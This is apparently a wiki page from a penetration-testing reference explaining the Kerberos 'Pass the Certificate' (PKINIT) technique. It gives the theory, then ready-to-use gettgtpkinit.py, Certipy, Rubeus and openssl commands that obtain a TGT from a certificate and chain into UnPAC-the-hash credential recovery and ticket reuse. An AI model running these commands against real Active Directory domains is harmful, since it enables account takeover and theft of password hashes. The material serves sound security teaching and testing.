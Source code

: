 # Pass the Certificate

## Theory

The Kerberos authentication protocol works with tickets in order to grant access. An ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can only be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to [ASREProast](asreproast.md)). The pre-authentication can be validated symmetrically (with a DES, RC4, AES128 or AES256 key) or asymmetrically (with certificates). The asymmetrical way of pre-authenticating is called PKINIT.

Pass the Certificate is the fancy name given to the pre-authentication operation relying on a certificate (i.e. key pair) to pass in order to obtain a TGT. This operation is often conducted along [shadow credentials](shadow-credentials.md), [AD CS escalation](../ad-cs/) and [UnPAC-the-hash attacks](unpac-the-hash.md).

{% hint style="info" %}
Keep in mind a certificate in itself cannot be used for authentication without the knowledge of the private key. A certificate is signed for a specific public key, that was generated along with a private key, which should be used when relying on a certificate for authentication.

The "certificate + private key" pair is usually used in the following manner

* PEM certificate + PEM private key
* PFX certificate export (which contains the private key) + PFX password (which protects the PFX certificate export)
{% endhint %}

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Dirk-jan](https://twitter.com/\_dirkjan)'s [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools/) tool to request a TGT (Ticket Granting Ticket) for the target object. That tool supports the use of the certificate in multiple forms.

```python
# PFX certificate (file) + password (string, optionnal)
gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# Base64-encoded PFX certificate (string) (password can be set)
gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# PEM certificate (file) + PEM private key (file)
gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
```

Alternatively, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used for the same purpose.

```bash
certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'
```

Certipy's commands don't support PFXs with password. The following command can be used to "unprotect" a PFX file.

```bash
certipy cert -export -pfx "PATH_TO_PFX_CERT" -password "CERT_PASSWORD" -out "unprotected.pfx"
```

The ticket obtained can then be used to

* authenticate with [pass-the-cache](ptc.md)
* conduct an [UnPAC-the-hash](unpac-the-hash.md) attack. This can be done with [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools/).
* obtain access to the account's SPN with an S4U2Self. This can be done with [gets4uticket.py](https://github.com/dirkjanm/PKINITtools/blob/master/gets4uticket.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools).

{% hint style="info" %}
When using Certipy for Pass-the-Certificate, it automatically does [UnPAC-the-hash](unpac-the-hash.md) to recover the account's NT hash, in addition to saving the TGT obtained.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
From Windows systems, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used to request a TGT (Ticket Granting Ticket) for the target object from a base64-encoded PFX certificate export (with an optional password).

```bash
Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```

{% hint style="info" %}
PEM certificates can be exported to a PFX format with openssl. Rubeus doesn't handle PEM certificates.

```bash
openssl pkcs12 -in "cert.pem" -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "cert.pfx"
```
{% endhint %}

{% hint style="info" %}
Certipy uses DER encryption. To generate a PFX for Rubeus, [openssl](https://www.openssl.org) can be used.

```bash
openssl rsa -inform DER -in key.key -out key-pem.key
openssl x509 -inform DER -in cert.crt -out cert.pem -outform PEM
openssl pkcs12 -in cert.pem -inkey key-pem.key -export -out cert.pfx
```
{% endhint %}

The ticket obtained can then be used to

* authenticate with [pass-the-ticket](ptt.md)
* conduct an [UnPAC-the-hash](unpac-the-hash.md) attack (add the `/getcredentials` flag to Rubeus's asktgt command)
* obtain access to the account's SPN with an S4U2Self.
{% endtab %}
{% endtabs %}
